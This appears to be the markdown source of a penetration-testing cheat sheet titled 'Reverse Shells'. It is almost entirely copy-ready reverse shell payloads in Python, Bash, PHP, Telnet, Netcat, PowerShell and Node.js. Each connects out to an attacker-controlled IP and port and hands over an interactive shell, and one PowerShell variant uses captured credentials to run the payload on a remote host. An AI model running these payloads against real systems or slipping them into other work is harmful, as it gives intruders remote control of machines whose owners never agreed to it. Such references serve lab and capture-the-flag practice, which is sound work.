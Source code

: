 ```yaml
---
description: >-
  Reverse Shells
title:  Reverse Shells              # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence,  Reverse Shells]                     # Change Templates to Writeup
tags: [persistence, reverse shell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.175",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
/bin/bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'
```

### PHP
```php
# Example 1
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'");?>
# Example 2
php -r '$sock=fsockopen(“<attacker_IP>”,<attacker_PORT>); exec(“/bin/sh -I
<&3 >&3 2>&3”);'
```
Example:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:rev-shell-php)

### Telnet
```bash
telnet <attacker_IP> 4444 | /bin/bash | telnet <attacker_IP> 4445
```

### Netcat
```bash
nc <attacker_IP> <attacker_PORT> -e /bin/sh
```

### Netcat w/o “-e” option
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -I 2>&1 | nc <attacker_IP> <attacker_PORT> > /tmp/f
```

### Powershell

From a non-powershell cli, we can execute our reverse shell with this command:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.16.3",2345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
If we are on a powershell cli, we can execute this one instead:
```powershell
Invoke-Command -ComputerName file.fulcrum.local -Credential $Creds -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.10.16.3',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() }
```

Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:rev-powershell)

### Node JS
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

### Firefox Plugin
An excellent plugin to craft different payloads as Reverse Shells directly from firefox:
[hacktools](https://addons.mozilla.org/es/firefox/addon/hacktools/)

